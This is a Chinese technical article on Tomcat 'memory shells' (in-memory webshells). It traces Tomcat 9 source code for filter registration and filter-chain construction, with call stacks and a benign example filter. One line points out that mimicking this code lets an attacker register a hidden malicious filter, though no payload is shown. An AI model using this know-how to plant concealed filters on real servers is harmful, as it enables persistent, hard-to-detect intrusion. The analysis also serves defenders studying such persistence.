深入研究Tomcat内存马的攻击技术

* * *

# 深入研究Tomcat内存马的攻击技术

## 1\. 简介

Tomcat内存马（Tomcat Memory Shell）是一种利用Apache Tomcat服务器的漏洞，将恶意代码注入Tomcat进程的内存中的攻击技术

## 2\. 环境

以下代码基于Windows 10、Tomcat 9.0.73、JDK 1.8.0\_66

## 3\. Tomcat解析配置文件

在org/apache/catalina/core/StandardContext类的startInternal方法开始

```plain
fireLifecycleEvent(Lifecycle.CONFIGURE_START_EVENT, null);
```

经过如下函数调用栈：

```plain
configureStart:976, ContextConfig (org.apache.catalina.startup)
lifecycleEvent:304, ContextConfig (org.apache.catalina.startup)
fireLifecycleEvent:123, LifecycleBase (org.apache.catalina.util)
startInternal:4851, StandardContext (org.apache.catalina.core)
start:183, LifecycleBase (org.apache.catalina.util)
```

来到org/apache/catalina/startup/ContextConfig类的configureStart方法，其中调用了webConfig方法  
这个方法合并Tomcat全局web.xml、当前应用的web.xml、web-fragment.xml和web应用中的注解配置信息，然后调用configureContext方法将解析出的各种配置信息（如Servlet配置、Filter配置、Listener配置等）关联到Context对象中  
configureContext方法:

```plain
private void configureContext(WebXml webxml) {
    // As far as possible, process in alphabetical order so it is easy to
    // check everything is present
    // Some validation depends on correct public ID
    // 设置公共ID
    context.setPublicId(webxml.getPublicId());

    // 设置版本信息
    // Everything else in order
    context.setEffectiveMajorVersion(webxml.getMajorVersion());
    context.setEffectiveMinorVersion(webxml.getMinorVersion());

    // 设置上下文参数
    for (Entry<String, String> entry : webxml.getContextParams().entrySet()) {
        context.addParameter(entry.getKey(), entry.getValue());
    }
    // 配置其他基本信息
    context.setDenyUncoveredHttpMethods(
            webxml.getDenyUncoveredHttpMethods());
    context.setDisplayName(webxml.getDisplayName());
    context.setDistributable(webxml.isDistributable());
    // 配置EJB引用
    for (ContextLocalEjb ejbLocalRef : webxml.getEjbLocalRefs().values()) {
        context.getNamingResources().addLocalEjb(ejbLocalRef);
    }
    for (ContextEjb ejbRef : webxml.getEjbRefs().values()) {
        context.getNamingResources().addEjb(ejbRef);
    }
    // 配置环境条目
    for (ContextEnvironment environment : webxml.getEnvEntries().values()) {
        context.getNamingResources().addEnvironment(environment);
    }
    // 配置错误页面
    for (ErrorPage errorPage : webxml.getErrorPages().values()) {
        context.addErrorPage(errorPage);
    }
    // 配置过滤器（filter）
    for (FilterDef filter : webxml.getFilters().values()) {
        if (filter.getAsyncSupported() == null) {
            filter.setAsyncSupported("false");
        }
        context.addFilterDef(filter);
    }
    // 配置过滤器映射（filter-mapping）
    for (FilterMap filterMap : webxml.getFilterMappings()) {
        context.addFilterMap(filterMap);
    }
    // 设置JSP配置描述符
    context.setJspConfigDescriptor(webxml.getJspConfigDescriptor());
    // 配置监听器
    for (String listener : webxml.getListeners()) {
        context.addApplicationListener(listener);
    }
    // 配置区域编码映射
    for (Entry<String, String> entry :
            webxml.getLocaleEncodingMappings().entrySet()) {
        context.addLocaleEncodingMappingParameter(entry.getKey(),
                entry.getValue());
    }
    // Prevents IAE
    // 设置登录配置
    if (webxml.getLoginConfig() != null) {
        context.setLoginConfig(webxml.getLoginConfig());
    }
    // 配置消息目标引用
    for (MessageDestinationRef mdr :
            webxml.getMessageDestinationRefs().values()) {
        context.getNamingResources().addMessageDestinationRef(mdr);
    }

    // messageDestinations were ignored in Tomcat 6, so ignore here

    context.setIgnoreAnnotations(webxml.isMetadataComplete());
    // 配置MIME映射
    for (Entry<String, String> entry :
            webxml.getMimeMappings().entrySet()) {
        context.addMimeMapping(entry.getKey(), entry.getValue());
    }
    // 配置请求字符编码和响应字符编码
    context.setRequestCharacterEncoding(webxml.getRequestCharacterEncoding());
    // Name is just used for ordering
    // 配置资源环境引用
    for (ContextResourceEnvRef resource :
            webxml.getResourceEnvRefs().values()) {
        context.getNamingResources().addResourceEnvRef(resource);
    }
    for (ContextResource resource : webxml.getResourceRefs().values()) {
        context.getNamingResources().addResource(resource);
    }
    // 配置资源引用
    context.setResponseCharacterEncoding(webxml.getResponseCharacterEncoding());
    boolean allAuthenticatedUsersIsAppRole =
            webxml.getSecurityRoles().contains(
                    SecurityConstraint.ROLE_ALL_AUTHENTICATED_USERS);
    // 配置安全约束
    for (SecurityConstraint constraint : webxml.getSecurityConstraints()) {
        if (allAuthenticatedUsersIsAppRole) {
            constraint.treatAllAuthenticatedUsersAsApplicationRole();
        }
        context.addConstraint(constraint);
    }
    // 配置安全角色
    for (String role : webxml.getSecurityRoles()) {
        context.addSecurityRole(role);
    }
    // 配置服务引用
    for (ContextService service : webxml.getServiceRefs().values()) {
        context.getNamingResources().addService(service);
    }
    // 配置Servlet
    for (ServletDef servlet : webxml.getServlets().values()) {
        Wrapper wrapper = context.createWrapper();
        // Description is ignored
        // Display name is ignored
        // Icons are ignored

        // jsp-file gets passed to the JSP Servlet as an init-param

        if (servlet.getLoadOnStartup() != null) {
            wrapper.setLoadOnStartup(servlet.getLoadOnStartup().intValue());
        }
        if (servlet.getEnabled() != null) {
            wrapper.setEnabled(servlet.getEnabled().booleanValue());
        }
        wrapper.setName(servlet.getServletName());
        Map<String,String> params = servlet.getParameterMap();
        for (Entry<String, String> entry : params.entrySet()) {
            wrapper.addInitParameter(entry.getKey(), entry.getValue());
        }
        wrapper.setRunAs(servlet.getRunAs());
        Set<SecurityRoleRef> roleRefs = servlet.getSecurityRoleRefs();
        for (SecurityRoleRef roleRef : roleRefs) {
            wrapper.addSecurityReference(
                    roleRef.getName(), roleRef.getLink());
        }
        wrapper.setServletClass(servlet.getServletClass());
        MultipartDef multipartdef = servlet.getMultipartDef();
        if (multipartdef != null) {
            long maxFileSize = -1;
            long maxRequestSize = -1;
            int fileSizeThreshold = 0;

            if(null != multipartdef.getMaxFileSize()) {
                maxFileSize = Long.parseLong(multipartdef.getMaxFileSize());
            }
            if(null != multipartdef.getMaxRequestSize()) {
                maxRequestSize = Long.parseLong(multipartdef.getMaxRequestSize());
            }
            if(null != multipartdef.getFileSizeThreshold()) {
                fileSizeThreshold = Integer.parseInt(multipartdef.getFileSizeThreshold());
            }

            wrapper.setMultipartConfigElement(new MultipartConfigElement(
                    multipartdef.getLocation(),
                    maxFileSize,
                    maxRequestSize,
                    fileSizeThreshold));
        }
        if (servlet.getAsyncSupported() != null) {
            wrapper.setAsyncSupported(
                    servlet.getAsyncSupported().booleanValue());
        }
        wrapper.setOverridable(servlet.isOverridable());
        context.addChild(wrapper);
    }
    // 配置Servlet映射
    for (Entry<String, String> entry :
            webxml.getServletMappings().entrySet()) {
        context.addServletMappingDecoded(entry.getKey(), entry.getValue());
    }
    // 设置会话配置
    SessionConfig sessionConfig = webxml.getSessionConfig();
    if (sessionConfig != null) {
        if (sessionConfig.getSessionTimeout() != null) {
            context.setSessionTimeout(
                    sessionConfig.getSessionTimeout().intValue());
        }
        SessionCookieConfig scc = context.getServletContext().getSessionCookieConfig();
        scc.setName(sessionConfig.getCookieName());
        scc.setDomain(sessionConfig.getCookieDomain());
        scc.setPath(sessionConfig.getCookiePath());
        scc.setComment(sessionConfig.getCookieComment());
        if (sessionConfig.getCookieHttpOnly() != null) {
            scc.setHttpOnly(sessionConfig.getCookieHttpOnly().booleanValue());
        }
        if (sessionConfig.getCookieSecure() != null) {
            scc.setSecure(sessionConfig.getCookieSecure().booleanValue());
        }
        if (sessionConfig.getCookieMaxAge() != null) {
            scc.setMaxAge(sessionConfig.getCookieMaxAge().intValue());
        }
        if (sessionConfig.getSessionTrackingModes().size() > 0) {
            context.getServletContext().setSessionTrackingModes(
                    sessionConfig.getSessionTrackingModes());
        }
    }

    // Context doesn't use version directly
    // 配置欢迎文件
    for (String welcomeFile : webxml.getWelcomeFiles()) {
        /*
            * The following will result in a welcome file of "" so don't add
            * that to the context
            * <welcome-file-list>
            *   <welcome-file/>
            * </welcome-file-list>
            */
        if (welcomeFile != null && welcomeFile.length() > 0) {
            context.addWelcomeFile(welcomeFile);
        }
    }

    // Do this last as it depends on servlets
    // 配置JSP属性组
    for (JspPropertyGroup jspPropertyGroup :
            webxml.getJspPropertyGroups()) {
        String jspServletName = context.findServletMapping("*.jsp");
        if (jspServletName == null) {
            jspServletName = "jsp";
        }
        if (context.findChild(jspServletName) != null) {
            for (String urlPattern : jspPropertyGroup.getUrlPatterns()) {
                context.addServletMappingDecoded(urlPattern, jspServletName, true);
            }
        } else {
            if(log.isDebugEnabled()) {
                for (String urlPattern : jspPropertyGroup.getUrlPatterns()) {
                    log.debug("Skipping " + urlPattern + " , no servlet " +
                            jspServletName);
                }
            }
        }
    }
    // 配置PostConstruct方法
    for (Entry<String, String> entry :
            webxml.getPostConstructMethods().entrySet()) {
        context.addPostConstructMethod(entry.getKey(), entry.getValue());
    }
    // 配置PreDestroy方法
    for (Entry<String, String> entry :
        webxml.getPreDestroyMethods().entrySet()) {
        context.addPreDestroyMethod(entry.getKey(), entry.getValue());
    }
}
```

函数调用栈：

```plain
configureContext:1447, ContextConfig (org.apache.catalina.startup)
webConfig:1330, ContextConfig (org.apache.catalina.startup)
configureStart:987, ContextConfig (org.apache.catalina.startup)
lifecycleEvent:304, ContextConfig (org.apache.catalina.startup)
fireLifecycleEvent:123, LifecycleBase (org.apache.catalina.util)
startInternal:4851, StandardContext (org.apache.catalina.core)
start:183, LifecycleBase (org.apache.catalina.util)
addChildInternal:683, ContainerBase (org.apache.catalina.core)
addChild:658, ContainerBase (org.apache.catalina.core)
addChild:662, StandardHost (org.apache.catalina.core)
manageApp:1782, HostConfig (org.apache.catalina.startup)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invoke:294, BaseModelMBean (org.apache.tomcat.util.modeler)
invoke:819, DefaultMBeanServerInterceptor (com.sun.jmx.interceptor)
invoke:801, JmxMBeanServer (com.sun.jmx.mbeanserver)
createStandardContext:460, MBeanFactory (org.apache.catalina.mbeans)
createStandardContext:408, MBeanFactory (org.apache.catalina.mbeans)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invoke:294, BaseModelMBean (org.apache.tomcat.util.modeler)
invoke:819, DefaultMBeanServerInterceptor (com.sun.jmx.interceptor)
invoke:801, JmxMBeanServer (com.sun.jmx.mbeanserver)
invoke:468, MBeanServerAccessController (com.sun.jmx.remote.security)
doOperation:1471, RMIConnectionImpl (javax.management.remote.rmi)
access$300:76, RMIConnectionImpl (javax.management.remote.rmi)
run:1312, RMIConnectionImpl$PrivilegedOperation (javax.management.remote.rmi)
doPrivileged:-1, AccessController (java.security)
doPrivilegedOperation:1411, RMIConnectionImpl (javax.management.remote.rmi)
invoke:832, RMIConnectionImpl (javax.management.remote.rmi)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
dispatch:323, UnicastServerRef (sun.rmi.server)
run:200, Transport$1 (sun.rmi.transport)
run:197, Transport$1 (sun.rmi.transport)
doPrivileged:-1, AccessController (java.security)
serviceCall:196, Transport (sun.rmi.transport)
handleMessages:568, TCPTransport (sun.rmi.transport.tcp)
run0:826, TCPTransport$ConnectionHandler (sun.rmi.transport.tcp)
lambda$run$256:683, TCPTransport$ConnectionHandler (sun.rmi.transport.tcp)
run:-1, 1966382949 (sun.rmi.transport.tcp.TCPTransport$ConnectionHandler$$Lambda$25)
doPrivileged:-1, AccessController (java.security)
run:682, TCPTransport$ConnectionHandler (sun.rmi.transport.tcp)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:745, Thread (java.lang)
```

回到startInternal方法，执行下面代码

```plain
// Call ServletContainerInitializers
for (Map.Entry<ServletContainerInitializer, Set<Class<?>>> entry : initializers.entrySet()) {
    try {
        entry.getKey().onStartup(entry.getValue(), getServletContext());
    } catch (ServletException e) {
        log.error(sm.getString("standardContext.sciFail"), e);
        ok = false;
        break;
    }
}
```

这段代码的作用是遍历已注册的ServletContainerInitializer，并依次调用它们的onStartup方法。通过这种方式，可以在Servlet容器启动时执行一些初始化任务，例如注册Servlet、Filter、Listener等。  
最终来到org/apache/catalina/core/ApplicationContext的addFilter方法

```plain
private FilterRegistration.Dynamic addFilter(String filterName, String filterClass, Filter filter)
        throws IllegalStateException {
    // 参数验证
    if (filterName == null || filterName.equals("")) {
        throw new IllegalArgumentException(sm.getString("applicationContext.invalidFilterName", filterName));
    }
    // 状态检查
    // TODO Spec breaking enhancement to ignore this restriction
    checkState("applicationContext.addFilter.ise");
    // 查找FilterDef
    FilterDef filterDef = context.findFilterDef(filterName);

    // Assume a 'complete' FilterRegistration is one that has a class and
    // a name
    // 如果查找未成功，创建一个新的FilterDef
    if (filterDef == null) {
        filterDef = new FilterDef();
        filterDef.setFilterName(filterName);
        context.addFilterDef(filterDef);
    } else {
        // 如果FilterDef对象已经具有filterName和filterClass
        if (filterDef.getFilterName() != null && filterDef.getFilterClass() != null) {
            return null;
        }
    }
    // 设置filterDef属性
    if (filter == null) {
        filterDef.setFilterClass(filterClass);
    } else {
        filterDef.setFilterClass(filter.getClass().getName());
        filterDef.setFilter(filter);
    }
    // 创建了ApplicationFilterRegistration对象
    return new ApplicationFilterRegistration(filterDef, context);
}
```

该段代码的作用是向应用程序上下文中添加过滤器，并返回一个FilterRegistration.Dynamic对象，用于进一步配置和管理该过滤器。  
函数调用栈：

```plain
addFilter:774, ApplicationContext (org.apache.catalina.core)
addFilter:761, ApplicationContext (org.apache.catalina.core)
addFilter:434, ApplicationContextFacade (org.apache.catalina.core)
<init>:109, WsServerContainer (org.apache.tomcat.websocket.server)
init:137, WsSci (org.apache.tomcat.websocket.server)
onStartup:49, WsSci (org.apache.tomcat.websocket.server)
startInternal:4929, StandardContext (org.apache.catalina.core)
```

filterMaps的添加过程，在org/apache/catalina/core/ApplicationFilterRegistration的addMappingForUrlPatterns方法中

```plain
@Override
public void addMappingForUrlPatterns(EnumSet<DispatcherType> dispatcherTypes, boolean isMatchAfter,
        String... urlPatterns) {

    FilterMap filterMap = new FilterMap();

    filterMap.setFilterName(filterDef.getFilterName());

    if (dispatcherTypes != null) {
        for (DispatcherType dispatcherType : dispatcherTypes) {
            filterMap.setDispatcher(dispatcherType.name());
        }
    }

    if (urlPatterns != null) {
        // % decoded (if necessary) using UTF-8
        for (String urlPattern : urlPatterns) {
            filterMap.addURLPattern(urlPattern);
        }

        if (isMatchAfter) {
            context.addFilterMap(filterMap);
        } else {
            context.addFilterMapBefore(filterMap);
        }
    }
    // else error?

}
```

函数调用栈：

```plain
addMappingForUrlPatterns:83, ApplicationFilterRegistration (org.apache.catalina.core)
<init>:116, WsServerContainer (org.apache.tomcat.websocket.server)
init:137, WsSci (org.apache.tomcat.websocket.server)
onStartup:49, WsSci (org.apache.tomcat.websocket.server)
startInternal:4929, StandardContext (org.apache.catalina.core)
start:183, LifecycleBase (org.apache.catalina.util)
```

经过上面的解析，此时filterDefs、filterMaps中已经有数据了，并且filterMaps是根据filterDefs来的

接着来到startInternal方法，调用filterStart

```plain
// Configure and call application filters
if (ok) {
    if (!filterStart()) {
        // ...
    }
```

此时filterConfigs中还没有数据，经过filterStart方法后，就有了数据  
函数调用栈：

```plain
filterStart:4331, StandardContext (org.apache.catalina.core)
startInternal:4965, StandardContext (org.apache.catalina.core)
start:183, LifecycleBase (org.apache.catalina.util)
addChildInternal:683, ContainerBase (org.apache.catalina.core)
```

## 4\. Filter

### 4.1 例子

创建一个简单的Java Web项目，添加一个Filter，然后在web.xml中配置Filter，启动项目，访问一个Servlet，查看控制台输出的日志，可以看到Filter的init方法和doFilter方法被调用了。另外在停止Tomcat时，也会调用Filter的destroy方法。  
Filter示例如下：

```plain
package org.example.filter;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import java.io.IOException;

@WebFilter(value = "/hello", filterName = "hello")
public class HelloFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("filter init");
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("do filter");
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {
        System.out.println("filter destory");
    }
}
```

web.xml配置如下：

```plain
<filter>
    <filter-name>hello</filter-name>
    <filter-class>org.example.filter.HelloFilter</filter-class>
</filter>
<filter-mapping>
    <filter-name>hello</filter-name>
    <url-pattern>/hello</url-pattern>
</filter-mapping>
```

Filter的init方法和doFilter方法是谁调用的呢？Filter是怎么被调用的呢？

### 4.2 Filter注册流程

根据上一节描述的Tomcat配置文件解析过程，在应用程序中动态添加一个filter的过程如下：

*   调用ApplicationContext的addFilter方法创建FilterDef对象
*   调用StandardContext的filterStart方法得到filterConfigs
*   调用ApplicationFilterRegistration的addMappingForUrlPatterns生成filterMaps（可以将自定义的filter放在filterMaps中的第一位，有两种方法：a.手动修改filterMaps的顺序 b.调用StandardContext的addFilterMapBefore方法将该filter放入filterMaps第一位）

另外，在实现内存马的时候，可以模仿以上函数的代码构建filterDefs、filterMaps、filterConfigs这三个变量

### 4.3 Filter触发流程

根据Tomcat版本添加Maven依赖

```plain
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>9.0.73</version>
</dependency>
```

在自定义Filter的doFilter方法中下断点，然后启动Tomcat，访问Servlet，可以看到断点被触发了，查看调用栈，可以看到调用链如下：

```plain
doFilter:16, HelloFilter (org.example.filter)
internalDoFilter:178, ApplicationFilterChain (org.apache.catalina.core)
doFilter:153, ApplicationFilterChain (org.apache.catalina.core)
invoke:167, StandardWrapperValve (org.apache.catalina.core)
invoke:90, StandardContextValve (org.apache.catalina.core)
invoke:492, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:130, StandardHostValve (org.apache.catalina.core)
invoke:93, ErrorReportValve (org.apache.catalina.valves)
invoke:673, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:74, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:389, Http11Processor (org.apache.coyote.http11)
process:63, AbstractProcessorLight (org.apache.coyote)
process:926, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1791, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1191, ThreadPoolExecutor (org.apache.tomcat.util.threads)
run:659, ThreadPoolExecutor$Worker (org.apache.tomcat.util.threads)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang)
```

首先在org/apache/catalina/core/StandardWrapperValve类的invoke方法中，分两步：  
第一步如下代码构建了一条filterChain

```plain
ApplicationFilterChain filterChain = ApplicationFilterFactory.createFilterChain(request, wrapper, servlet);
```

构建好链后，第二步调用filterChain的doFilter方法，如下代码：

```plain
filterChain.doFilter(request.getRequest(), response.getResponse());
```

先分析ApplicationFilterFactory.createFilterChain

```plain
public static ApplicationFilterChain createFilterChain(ServletRequest request, Wrapper wrapper, Servlet servlet) {

    // If there is no servlet to execute, return null
    if (servlet == null) {
        return null;
    }

    // Create and initialize a filter chain object
    ApplicationFilterChain filterChain = null;
    if (request instanceof Request) {
        Request req = (Request) request;
        if (Globals.IS_SECURITY_ENABLED) {
            // Security: Do not recycle
            filterChain = new ApplicationFilterChain();
        } else {
            filterChain = (ApplicationFilterChain) req.getFilterChain();
            if (filterChain == null) {
                filterChain = new ApplicationFilterChain();
                req.setFilterChain(filterChain);
            }
        }
    } else {
        // Request dispatcher in use
        filterChain = new ApplicationFilterChain();
    }

    filterChain.setServlet(servlet);
    filterChain.setServletSupportsAsync(wrapper.isAsyncSupported());

    // Acquire the filter mappings for this Context
    StandardContext context = (StandardContext) wrapper.getParent();
    FilterMap filterMaps[] = context.findFilterMaps();

    // If there are no filter mappings, we are done
    if ((filterMaps == null) || (filterMaps.length == 0)) {
        return filterChain;
    }

    // Acquire the information we will need to match filter mappings
    DispatcherType dispatcher = (DispatcherType) request.getAttribute(Globals.DISPATCHER_TYPE_ATTR);

    String requestPath = null;
    Object attribute = request.getAttribute(Globals.DISPATCHER_REQUEST_PATH_ATTR);
    if (attribute != null) {
        requestPath = attribute.toString();
    }

    String servletName = wrapper.getName();

    // Add the relevant path-mapped filters to this filter chain
    for (FilterMap filterMap : filterMaps) {
        if (!matchDispatcher(filterMap, dispatcher)) {
            continue;
        }
        if (!matchFiltersURL(filterMap, requestPath)) {
            continue;
        }
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) context
                .findFilterConfig(filterMap.getFilterName());
        if (filterConfig == null) {
            // FIXME - log configuration problem
            continue;
        }
        filterChain.addFilter(filterConfig);
    }

    // Add filters that match on servlet name second
    for (FilterMap filterMap : filterMaps) {
        if (!matchDispatcher(filterMap, dispatcher)) {
            continue;
        }
        if (!matchFiltersServlet(filterMap, servletName)) {
            continue;
        }
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) context
                .findFilterConfig(filterMap.getFilterName());
        if (filterConfig == null) {
            // FIXME - log configuration problem
            continue;
        }
        filterChain.addFilter(filterConfig);
    }

    // Return the completed filter chain
    return filterChain;
}
```

第一：尝试从request中获取filterChain，如果获取不到，就创建一个新的filterChain  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111134355-4d5a39a4-8055-1.png)  
第二：设置servlet，获取filterMaps  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111134424-5e911062-8055-1.png)  
第三：将相关的路径映射过滤器添加到此过滤器链中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231111134446-6bb1b9ea-8055-1.png)  
filterMap.getFilterName得到的是name，而context.findFilterConfig是根据name找filterConfigs中对应的值  
进入addFilter

```plain
void addFilter(ApplicationFilterConfig filterConfig) {

    // Prevent the same filter being added multiple times
    for (ApplicationFilterConfig filter : filters) {
        if (filter == filterConfig) {
            return;
        }
    }

    if (n == filters.length) {
        ApplicationFilterConfig[] newFilters = new ApplicationFilterConfig[n + INCREMENT];
        System.arraycopy(filters, 0, newFilters, 0, n);
        filters = newFilters;
    }
    filters[n++] = filterConfig;

}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231111134510-7a117494-8055-1.png)  
完成一轮for循环后，继续下一轮，直到所有符合条件的filterMap都添加到filterChain中  
第四：添加与服务程序名称相匹配的筛选器，即第二个for循环  
第五：返回完成的filterChain  
